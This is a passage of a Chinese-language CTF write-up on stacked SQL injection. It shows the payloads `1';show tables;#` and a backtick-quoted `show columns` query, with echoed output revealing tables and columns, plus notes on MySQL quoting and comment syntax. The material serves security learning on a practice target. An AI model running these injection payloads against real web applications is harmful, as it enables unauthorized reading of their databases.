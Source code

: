    说明存在堆叠注入

5. 查询表

   输入`1';show tables;#` 成功回显

   ```javascript
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   
   array(1) {
     [0]=>
     string(16) "1919810931114514"
   }
   
   array(1) {
     [0]=>
     string(5) "words"
   }
   
   
   ```

   可以看到有两张表 **1919810931114514**  **words** 

6. 查询表中字段

   **坑点：mysql中点引号( ' )和反勾号( ` )的区别**

   ```shell
   linux下不区分，windows下区分
   区别:
   单引号( ' )或双引号主要用于字符串的引用符号
   eg：mysql> SELECT 'hello', "hello" ;
   
   反勾号( ` )主要用于数据库、表、索引、列和别名用的引用符是[Esc下面的键]
   eg:`mysql>SELECT * FROM   `table`   WHERE `from` = 'abc' ;
   ```

   输入

   ```sql
   1'; show columns from `words`; #
   ```

    字段使用的是反勾号（ ` ）

   ```javascript
   array(6) {
     [0]=>
     string(2) "id"
     [1]=>
     string(7) "int(10)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   
   array(6) {
     [0]=>
     string(4) "data"
   ```

[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189) 
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入
[^3]: ../ 是跳转到上级目录